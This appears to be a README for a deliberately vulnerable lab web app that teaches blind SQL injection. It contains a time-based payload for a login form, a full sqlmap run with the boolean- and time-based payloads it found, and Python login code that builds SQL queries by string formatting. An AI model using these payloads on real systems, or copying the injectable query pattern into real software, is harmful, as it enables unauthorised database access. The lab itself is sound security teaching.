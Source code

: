 <p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/blind-sql-injection/main/content/blind-sql-injection.svg"></p>

An application enables users to interact with a database insecurely. A threat actor can exploit this feature by injecting a malicious query into a trusted web application. When the malicious query is executed, the application behaves normally without showing errors. This type of behavior indicates that the attack is blind

Clone this current repo recursively
```sh
git clone --recurse-submodules https://github.com/qeeqbox/blind-sql-injection
```
Run the webapp using Python
```sh
python3 blind-sql-injection/vulnerable-web-app/webapp.py
```
Open the webapp in your browser 127.0.0.1:5142
<p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/blind-sql-injection/main/content/1.png"></p>
Right-click on the page and open Developer Tools, then Networking (This will be used to determine the time taken for the web application to respond for login)
<p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/blind-sql-injection/main/content/2.png"></p>
Type in the username: ' OR RANDOMBLOB(1000000000/2)-- and password: test, if executed, the web application will be vulnerable to blind SQL injection, and that payload will cause a delay
<p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/blind-sql-injection/main/content/3.png"></p>
The payload was executed successfully and caused a delay
<p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/blind-sql-injection/main/content/4.png"></p>

```sh
user@users-Mac-mini vulnerable-web-app % sqlmap http://127.0.0.1:5142/login --data 'username=test&password=test' -p 'username' --dbms=sqlite --level 5 --risk 3 --ignore-code 401 --batch
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.9.7#stable}
|_ -| . [)]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:20:04 /2025-07-26/

[11:20:04] [INFO] testing connection to the target URL
[11:20:04] [INFO] testing if the target URL content is stable
[11:20:05] [INFO] target URL content is stable
[11:20:05] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[11:20:05] [INFO] heuristic (XSS) test shows that POST parameter 'username' might be vulnerable to cross-site scripting (XSS) attacks
[11:20:05] [INFO] testing for SQL injection on POST parameter 'username'
[11:20:05] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[11:20:05] [WARNING] reflective value(s) found and filtering out
[11:20:05] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
got a 302 redirect to 'http://127.0.0.1:5142/'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N] N
[11:20:05] [INFO] POST parameter 'username' appears to be 'OR boolean-based blind - WHERE or HAVING clause' injectable (with --code=200)
[11:20:05] [INFO] testing 'Generic inline queries'
[11:20:05] [INFO] testing 'SQLite inline queries'
[11:20:05] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query - comment)'
[11:20:05] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query)'
[11:20:05] [INFO] testing 'SQLite > 2.0 AND time-based blind (heavy query)'
[11:20:05] [INFO] testing 'SQLite > 2.0 OR time-based blind (heavy query)'
[11:20:13] [INFO] POST parameter 'username' appears to be 'SQLite > 2.0 OR time-based blind (heavy query)' injectable 
[11:20:13] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[11:20:13] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[11:20:13] [INFO] target URL appears to be UNION injectable with 7 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[11:20:13] [INFO] testing 'Generic UNION query (99) - 21 to 40 columns'
[11:20:13] [INFO] testing 'Generic UNION query (99) - 41 to 60 columns'
[11:20:14] [INFO] testing 'Generic UNION query (99) - 61 to 80 columns'
[11:20:14] [INFO] testing 'Generic UNION query (99) - 81 to 100 columns'
[11:20:14] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
[11:20:14] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 304 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-6373' OR 4741=4741-- IGcq&password=test

    Type: time-based blind
    Title: SQLite > 2.0 OR time-based blind (heavy query)
    Payload: username=test' OR 3859=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))-- atch&password=test
---
[11:20:14] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[11:20:14] [WARNING] HTTP error codes detected during run:
401 (Unauthorized) - 240 times
[11:20:14] [INFO] fetched data logged to text files under '/Users/user/.local/share/sqlmap/output/127.0.0.1'

[*] ending @ 11:20:14 /2025-07-26/
```

## Code
When user send a username and password in POST request to the login route, the check_creds() is called 
```py
if parsed_url.path == "/login" and "username" in post_request_data and "password" in post_request_data:
    ret = self.check_creds(post_request_data['username'][0],post_request_data['password'][0])
    if isinstance(ret, list) and ret[0] == "valid":
        self.send_content(302, self.gen_cookie(ret[1],60*15)+[('Location', URL)], None)
        self.log_message("%s logged in" % post_request_data['username'][0])
        return
    elif isinstance(ret, list) and ret[0] == "password":
        self.send_content(401, [('Content-type', 'text/html')], self.msg_page(f"Password is wrong".encode("utf-8"), b"login"))
        return
    elif isinstance(ret, list) and ret[0] == "username" or isinstance(ret, list) and ret[0] == "error":
        self.send_content(401, [('Content-type', 'text/html')], self.msg_page(f"User {post_request_data['username'][0]} doesn't exist".encode("utf-8"), b"login"))
        return
```
The check_creds() function checks if the username and password value are valid credentials; it does not check if either is sanitized or valid
```py
def check_creds(self, username, password):
    try:
        with connect(DATABASE, isolation_level=None, check_same_thread=False) as connection:
            cursor = connection.cursor()
            ret = cursor.execute("SELECT * FROM users WHERE username='%s'" % (username)).fetchall()
            if ret:
                ret = cursor.execute("SELECT * FROM users WHERE username='%s' AND hash='%s'" % (username,sha512(password.encode("utf-8")+SALT).hexdigest())).fetchone()
                if ret:
                    return ["valid",ret]
                else:
                    return ["password",ret]
            else:
                return ["username", username]
    except Exception as e:
        return ["error",str(e).encode("utf-8")] 
```
